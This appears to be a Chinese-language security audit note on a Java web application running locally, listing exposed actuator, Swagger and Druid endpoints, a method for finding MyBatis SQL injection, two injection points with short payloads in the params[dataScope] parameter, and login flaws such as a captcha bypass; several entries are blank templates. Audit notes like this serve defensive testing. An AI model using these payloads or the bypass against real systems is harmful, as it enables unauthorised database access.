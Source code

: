 ### 敏感信息收集

#### 目录爆破

* 前台爆破

```txt
200
http://127.0.0.1:8088/actuator
http://127.0.0.1:8088/actuator/env
http://127.0.0.1:8088/actuator/beans
http://127.0.0.1:8088/actuator/info
http://127.0.0.1:8088/actuator/health
http://127.0.0.1:8088/actuator/metrics
http://127.0.0.1:8088/login.html
http://127.0.0.1:8088/swagger-resources
http://127.0.0.1:8088/swagger-ui.html
http://127.0.0.1:8088/v2/api-docs

302
http://127.0.0.1:8088/druid/coordinator/v1/leader    -> REDIRECTS TO: http://127.0.0.1:8088/druid/login.html
http://127.0.0.1:8088/druid/coordinator/v1/metadata/datasources    -> REDIRECTS TO: http://127.0.0.1:8088/druid/login.html
http://127.0.0.1:8088/druid/index.html    -> REDIRECTS TO: http://127.0.0.1:8088/druid/login.html
http://127.0.0.1:8088/druid/indexer/v1/taskStatus    -> REDIRECTS TO: http://127.0.0.1:8088/druid/login.html
```

#### JS收集

### 常规漏洞

#### SQL注入

* 大体思路：Mapper.xml搜索${}操作-》找到与之对应的接口，确定可能存在问题的方法-》搜索接口和方法找到service，确定调用的方法-》根据service找到serviceImpl，找到对应方法-》找到引用ServiceImpl的Controller，黑白盒结合寻找可以注入的点

##### 注入点1

* url:GET /api/dept?page=2&limit=7&status=1&params%5bdataScope%5d=and%201%3d2
* 参数：params%5bdataScope%5d
* 类型：布尔&时间&OOB
* DeptMapper.xml  id=getFuzzyDept

##### 注入点2

* url:GET /api/dept/build?params%5bdataScope%5d=%201%3d1
* 参数：params%5bdataScope%5d
* 类型：UNION&布尔&时间&OOB
* DeptMapper.xml  id=buildAll

##### 注入点3

* url:
* 参数：
* 类型：

##### 注入点4

* url:
* 参数：
* 类型：

##### 注入点5

* url:
* 参数：
* 类型：
* 

### 逻辑漏洞

#### 登录

* 验证码不为空即可绕过
* 没有防爆破机制

### 总结

* 参数传入问题
* mybatis不支持堆叠注入
* 